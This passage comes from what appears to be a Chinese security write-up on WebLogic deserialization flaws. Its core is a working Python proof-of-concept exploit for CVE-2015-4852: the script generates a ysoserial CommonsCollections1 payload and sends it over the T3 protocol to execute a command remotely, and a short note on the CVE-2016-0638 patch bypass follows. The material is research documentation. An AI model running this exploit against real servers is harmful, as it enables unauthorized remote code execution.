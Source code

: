     看一下 weblogic 自带的 CC 链
    
    ![image-20220128192910968](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-5f427c5113075564e02f38ddb4625d3b63c18758.png)
    
    ##### poc:
    
    ```python
    from os import popen
    import struct # 负责大小端的转换 
    import subprocess
    from sys import stdout
    import socket
    import re
    import binascii
    
    def generatePayload(gadget,cmd):
      YSO_PATH = "D:/javaweb/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar"
      popen = subprocess.Popen(['java','-jar',YSO_PATH,gadget,cmd],stdout=subprocess.PIPE)
      return popen.stdout.read()
    
    def T3Exploit(ip,port,payload):
      sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      sock.connect((ip,port))
      handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
      sock.sendall(handshake.encode())
      data = sock.recv(1024)
      compile = re.compile("HELO:(.*).0.false")
      match = compile.findall(data.decode())
      if match:
          print("Weblogic: "+"".join(match))
      else:
          print("Not Weblogic")
          return  
      header = binascii.a2b_hex(b"00000000")
      t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
      desflag = binascii.a2b_hex(b"fe010000")
      payload = header + t3header  +desflag+  payload
      payload = struct.pack(">I",len(payload)) + payload[4:]
      sock.send(payload)
    if __name__ == "__main__":
      ip = "172.21.65.112"
      port = 7001
      gadget = "CommonsCollections1"
      cmd = "touch /tmp/CVE-2015-4852"
      payload = generatePayload(gadget,cmd)
      T3Exploit(ip,port,payload)
    ```
- ### CVE-2016-0638（CVE-2015-4852 修复后的绕过）
    
    在补丁 p21984589\_1036\_Generic 中，在 ServerChannelInputStream 的 resolveClass 中引入 ClassFilter.isBlackListed 进行过滤，但菜鸡的我没有找到补丁文件。。。这里放一张参考文献中dalao的图：
    